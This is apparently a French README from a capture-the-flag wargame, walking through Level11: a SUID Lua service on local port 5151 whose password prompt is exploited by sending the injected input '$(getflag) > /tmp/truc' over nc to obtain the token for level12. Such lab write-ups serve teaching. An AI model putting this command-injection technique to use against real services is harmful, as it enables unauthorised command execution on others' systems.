 # Level11

[ENGLISH version](README_EN.md)

## Comment obtenir le flag

Le fichier présent est un fichier Lua.

Le fichier possède un bit SUID, nous pourrions donc l'exploiter.

Il y a un hachage sha1 à l'intérieur, mais c'est un faux chemin ; le décryptage de son contenu ne fait que le dire : NotSoEasy (https://www.dcode.fr/sha1-hash)

Nous pouvons créer une injection de code

Tout d'abord, nous devons nous connecter :

```
nc 127.0.0.1 5151
```

et lorsque le mot de passe est demandé, taper : 

```
$(getflag) > /tmp/truc
```

alors,

```
cat /tmp/truc
```

Le fichier contient un jeton pour se connecter au level12

## Le drapeau

Nous pouvons utiliser ce jeton pour nous connecter à level12
